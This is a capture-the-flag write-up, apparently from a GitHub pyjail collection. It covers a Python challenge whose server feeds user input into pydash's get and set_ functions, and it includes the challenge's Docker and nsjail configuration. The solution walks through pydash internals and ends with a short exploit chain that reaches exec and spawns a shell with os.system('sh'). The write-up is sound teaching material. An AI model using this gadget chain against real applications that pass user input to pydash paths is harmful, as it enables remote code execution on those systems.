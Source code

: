 # get and set

## challenge

Dockerfile
```dockerfile
FROM ubuntu:22.04 as chroot

RUN /usr/sbin/useradd --no-create-home -u 1000 user
ENV DEBIAN_FRONTEND=noninteractive
RUN apt-get update -y; apt-get install python3 python3-pip -y
RUN pip3 install pydash

COPY server.py /home/user/chal
COPY flag.txt /home/user/flag.txt

RUN chmod 555 /home/user/chal

FROM gcr.io/kctf-docker/challenge@sha256:d884e54146b71baf91603d5b73e563eaffc5a42d494b1e32341a5f76363060fb

COPY --from=chroot / /chroot

COPY nsjail.cfg /home/user/

CMD kctf_setup && \
    kctf_drop_privs \
    socat \
      TCP-LISTEN:1337,reuseaddr,fork \
      EXEC:"kctf_pow nsjail --config /home/user/nsjail.cfg -- /home/user/chal"
```

```
name: "default-nsjail-configuration"
description: "Default nsjail configuration for pwnable-style CTF task."

mode: ONCE
uidmap {inside_id: "1000"}
gidmap {inside_id: "1000"}
rlimit_as_type: HARD
rlimit_cpu_type: HARD
rlimit_nofile_type: HARD
rlimit_nproc_type: HARD

cwd: "/home/user"

mount: [
  {
    src: "/chroot"
    dst: "/"
    is_bind: true
  },
  {
    dst: "/tmp"
    fstype: "tmpfs"
    rw: true
  },
  {
    dst: "/proc"
    fstype: "proc"
    rw: true
  },
  {
    src: "/etc/resolv.conf"
    dst: "/etc/resolv.conf"
    is_bind: true
  }
]
```

server.py
```py
#!/usr/bin/env python3
import pydash


class Dummy:
    pass


if __name__ == "__main__":
    obj = Dummy()
    while True:
        src = input("src: ")
        dst = input("dst: ")
        pydash.set_(obj, dst, pydash.get(obj, src))
```

## solution

looking at the pydash source code, `get` fn is implemented as below

```
def get(obj: t.Any, path: PathT, default: t.Any = None) -> t.Any:
    if default is UNSET:
        # When NoValue given for default, then this method will raise if path is not present in obj.
        sentinel = default
    else:
        # When a returnable default is given, use a sentinel value to detect when base_get() returns
        # a default value for a missing path, so we can exit early from the loop and not mistakenly
        # iterate over the default.
        sentinel = object()

    for key in to_path(path):
        obj = base_get(obj, key, default=sentinel)

        if obj is sentinel:
            # Path doesn't exist so set return obj to the default.
            obj = default
            break

    return obj
```

these use `base_get`, which uses the two functions below

```py
def _base_get_item(obj, key, default=UNSET):
    try:
        return obj[key]
    except Exception:
        pass

    if not isinstance(key, int):
        try:
            return obj[int(key)]
        except Exception:
            pass

    return default


def _base_get_object(obj, key, default=UNSET):
    value = _base_get_item(obj, key, default=UNSET)
    if value is UNSET:
        _raise_if_restricted_key(key)
        value = default
        try:
            value = getattr(obj, key)
        except Exception:
            pass
    return value
```

the raise_if_restricted_key prevents accessing `obj.__globals__` and `obj.__builtins__` from _base_get_object, but, importantly, this restriction is not present in _base_get_item

first, the important thing is that we cant call any functions so easily

one idea is to overwrite the `__getitem__` (called when `obj[key]`). however, this cannot be done straight up (see [here](https://stackoverflow.com/questions/57413453/is-it-possible-to-override-getitem-at-instance-level-in-python))

![image](https://github.com/quasar098/pyjail-collection/assets/70716985/faddba52-aec1-4109-b92d-013d8805996f)

however, we can overwrite the Dummy class's `__class_getitem__`. that way, we can call the functions by doing `Dummy[key]` in place of `fn(key)`

so what function to call?

well, we can use `__reduce_ex__` since that takes one argument, and it returns a tuple that contains a function `__newobj__` to get a function object

so, `obj.__class__.__class_getitem__ = obj.__reduce_ex__`

then, we can use `obj.__class_[3]` to call `obj.__reduce_ex__(3)`

now, we have a function at the 0th index of the function return value. so, we can set getitem to that again

now, we can get the builtins because there is no restriction for getattr

then, we can set the getattr of the Dummy class to be exec.

now, we can just get an attribute that is actually a malicious piece of code.

essentially, the solution is
```
obj.__class__.__class_getitem__ = obj.__reduce_ex__
obj.newobj = obj.__class__[3][0]
obj.__class__.__class_getitem__ = obj.newobj.__getattribute__
__class__.__getattr__ = obj.__class__['__builtins__'].exec
getattr(obj, "import os; os\.system('sh')")
```
